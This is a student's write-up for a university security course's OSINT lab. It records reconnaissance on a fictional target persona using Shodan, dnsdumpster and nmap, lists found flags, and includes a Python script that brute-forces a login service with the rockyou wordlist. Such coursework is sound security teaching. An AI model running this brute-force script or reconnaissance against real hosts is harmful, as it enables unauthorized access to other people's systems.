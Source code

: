 # Writeup 2 - OSINT

Name: Tuan Le
Section: 0201

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examniation.

Digital acknowledgement: Tuan Le

## Assignment Writeup

### Part 1 (45 pts)

1. v0idcache's real name is Elizabeth Moffet

2. Elizabeth is the banking CEO at 13/37th National Bank and the URL is 
1337bank.money, the ip is 142.93.136.81

3. Twitter @v0idcache - I used Intel Techniques to find Usersherlock. I then 
used Usersherlock to search for the username and found the Twitter account.
Reddit u/v0idcache - I just googled v0idcache

4. I used dnsdumpster to obtain 5 ips and used Shodan to find information for each
216.87.155.33 - United States, VeriSign Infrastructure & Operations
216.87.152.33 - United States, VeriSing Infrastrcuture & Operations
142.93.136.81 - New York, United States, Digital Ocean
162.255.118.61 - Los Angeles, United States, Namecheap
162.255.118.62 - Los Angeles, United States, Namecheap

5. The 2 distinct flags
CMSC389R-{h1dd3n_1n_plain_5ight} - Found by looking at page source

CMSC389R-{e@5y_p3@5y-s0urc3_l3ak} - Found by looking at page source and further
examining the source of authenticate, control searched for "password" and found
username and password.

6. I performed nmap -p 1-1000 and nmap -p 1000-2000 to get the following ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
1337/tcp  open   waste

7. Based on the port scanner on pentest-tools.com, the operating system is
Ubuntu Linux

8. I found 3 other flags
CMSC389R-{h1ding_fil3s_in_r0bots_L0L} - Found by running 1337bank.money/robots.txt
then I found "Disallow: / secret_directory. I then ran 1337bank.money/secret_directory

CMSC389R-{h0w_2_iNt0_DNS_r3c0Rd5} - Found by using dnsdumpster with 1337bank.money

CMSC389R-{0M3G4LUL_G3T_pWN3d_N00b} - Found by just googling v0idcache and finding a
reddit post 

### Part 2 (75 pts)

I used the python stub code provided and added to it. I had to implement python
socket I/O such as reading and printing.

My code:

// Tuan Le
// UID: 115260047
// CMSC 389R (0201)

import socket

// IP address
host = "142.93.136.81"

// Open port to connect to
port = 1337 

// Wordlist file: "/usr/share/wordlists/rockyou.txt"
wordlist = open("/usr/share/wordlists/rockyou.txt", "r")

def brute_force():
    
    // Sockets: https://docs.python.org/2/library/socket.html

    username = "v0idcache"   # Hint: use OSINT

    // Iterate through each password in the wordlist and reapeatedly attempt to
    // log into v0idcache's server
    for password in wordlist:

        // Establish socket connection
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        
        // Reading username prompt and sending username
        data = s.recv(1024)      # Receives 1024 bytes from IP/Port
        s.send("v0idcache\n")
        print(data + username)

        // Reading password prompt and sending password
        data = s.recv(1024)      # Receives 1024 bytes from IP/Port
        s.send(password)
        print(data + password)

    s.close()

if __name__ == '__main__':
    brute_force()

I found 2 flags

CMSC389R-{brut3_f0rce_m4ster} - Found the username to be v0idcache and the password
linkinpark. Once I gained access, I cd into home and cat flag.txt

CMSC389R-{YWX4H3d3Bz6dx9lG32Odv0JZh} - Once I had access, I cd into home then cd
files then I cat a file called AB4300.txt which I found within a chat between 
v0idcache and fl1inch on pastebin.
